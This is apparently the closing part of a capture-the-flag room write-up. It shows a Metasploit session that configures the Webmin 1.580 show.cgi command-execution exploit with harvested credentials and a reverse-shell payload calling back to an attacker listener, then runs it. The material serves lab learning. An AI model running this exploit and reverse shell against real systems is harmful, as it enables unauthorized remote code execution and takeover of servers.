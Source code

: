 <br>


![image](https://github.com/user-attachments/assets/fa189b9c-bdc7-4617-99f7-effb6a161189)

<br>

![image](https://github.com/user-attachments/assets/3696422d-4b8d-4fa7-a207-cda99fbeac55)

<br>




<pre><code> root@[Attack_Box]:~/gamezone# 
msf6 exploit(unix/webapp/webmin_show_cgi_exec) > show options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  videogamer124    yes       Webmin Password
   Proxies                    no        A proxy chain of format type:host:port[,type:host:
                                        port][...]
   RHOSTS    127.0.0.1        yes       The target host(s), see https://docs.metasploit.co
                                        m/docs/using-metasploit/basics/using-metasploit.ht
                                        ml
   RPORT     8080             yes       The target port (TCP)
   SSL       false            yes       Use SSL
   USERNAME  agent47          yes       Webmin Username
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.13.10      yes       The listen address (an interface may be specified)
   LPORT  4446             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin 1.580



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/webmin_show_cgi_exec) >  exploit
</code></pre>


<br>
<h2>Room Complete<a id='7'></a></h2>
<p>Keep learning, keep growing!<br>

![image](https://github.com/user-attachments/assets/d508895e-d503-408b-8f17-0747a10974e6)
